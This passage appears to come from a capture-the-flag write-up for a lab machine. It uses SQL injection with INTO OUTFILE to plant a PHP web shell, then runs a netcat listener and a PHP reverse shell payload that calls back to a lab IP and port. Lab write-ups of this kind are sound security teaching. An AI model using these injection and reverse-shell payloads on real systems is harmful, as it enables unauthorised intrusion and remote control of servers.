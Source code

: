 ![test injected website](:/validation/9.png){:data-align="center"}
<br>

Let's put a backdoor php code in the file.

{% highlight Burp %}
country=Algeria' UNION SELECT '&lt;?php system($_GET["cmd"]) ?>' into outfile '/var/www/html/cmd.php' #
{% endhighlight %}

<br>

![backdoor](:/validation/10.png){:data-align="center"}
<br>

It worked!
Let's get a reverse shell now.

<br>

![not netcat](:/validation/11.png){:data-align="center"}
<br>

The machine dosen't have netcat.

#### Reverse Shell
***
We can go to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to try some reverse shells.
Let's set up a netcat listner first:

{% highlight Bash %}
nc -lnvp 4444
{% endhighlight %}

<br>

Reverse shell Payload:

{% highlight payload %}
?cmd=php -r '$sock=fsockopen("10.10.14.20",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

<br>

![reverse shell cought on netcat](:/validation/12.png){:data-align="center"}
<br>
And we got ourselves a revershe shell.
Let's get the user flag

<br>

![user flag](:/validation/13.png){:data-align="center"}
<br>

### Privilege Escalation
***
Getting the root flag on this machine was pretty easy.
Credentials file was right where we landed when we got the shell!
